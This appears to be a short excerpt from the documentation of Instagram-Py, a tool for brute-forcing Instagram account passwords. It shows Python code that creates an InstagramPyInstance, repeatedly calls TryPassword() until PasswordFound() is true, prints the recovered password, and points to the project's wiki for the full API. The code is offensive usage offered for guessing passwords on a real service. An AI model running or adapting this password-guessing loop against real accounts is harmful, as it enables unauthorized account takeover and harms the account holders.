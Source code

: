 '''
 Defining @param cli = None will make Instagram-Py run silently so you
 can you use your own interface if you like.
 or if you want to use the official interface then declare like this

 instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session)
while not instagrampy.PasswordFound():
       print('Trying... '+session.CurrentPassword())
       instagrampy.TryPassword()

if instagrampy.PasswordFound():
       print('Password Found: '+session.CurrentPassword())

exit(0)
Refer the Wiki to get full information about the api , https://github.com/deathsec/instagram-py/wiki
